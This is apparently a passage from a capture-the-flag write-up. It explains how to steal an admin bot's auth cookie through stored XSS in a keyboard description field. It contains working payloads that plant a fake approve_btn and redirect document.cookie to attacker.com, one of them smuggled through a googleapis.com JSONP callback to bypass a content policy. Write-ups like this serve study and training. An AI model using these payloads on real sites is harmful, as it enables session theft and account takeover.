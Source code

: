 As seen in the code:

```python
def approve_keyboard(keyboard_id):
    options = webdriver.ChromeOptions()
    options.add_argument('--headless')
    options.add_argument('--no-sandbox')
    options.add_argument('--disable-gpu')
    options.add_argument('--disable-extensions')
    driver = webdriver.Chrome(options=options)
    driver.get(f'http://localhost:5000/keyboard/{keyboard_id}')
    driver.add_cookie({'name': 'auth', 'value': get_my_key()})
    driver.refresh()
    sleep(3)
    driver.find_element('id', 'approve_btn').click()
    sleep(6)
    driver.close()
```

So a payload that activates at the page load will not work because the cookie won't be set yet.

And adding a delay will not work because of the python sleep.

Our best solution here is to use it's own clicks against him.

By setting up our payload to run only when the approve button is clicked, we are sure it will be executed after the cookie is set and while the bot's web driver is active.

The `approve_btn` button being after the injection point (the description field), we cannot access it directly because our script will be loaded before the button is created. I think the `defer` could work but I had an easier solution: Create my own `approve_btn`.

The payload for this would be:

```html
<button id="approve_btn" type="button"></button>
<script>
    document.getElementById('approve_btn').onclick= () => {
        location.href='https://attacker.com?c='+btoa(document.cookie);
    }
</script>
```

Using `www.googleapis.com/customsearch/v1` gives us the final payload:

```html
<button id="approve_btn" type="button"></button>
<script src="https://www.googleapis.com/customsearch/v1?callback=document.getElementById('approve_btn').onclick=function(){location.href='https://attacker.com?c='%2Bbtoa(document.cookie);};let%20foo=" ></script>
```

Then we can just submit the form with this payload as the description and wait for the bot to approve it.

The admin cookie will be sent to our server and we can use it to get the `/keyboards/4` page and get the flag.
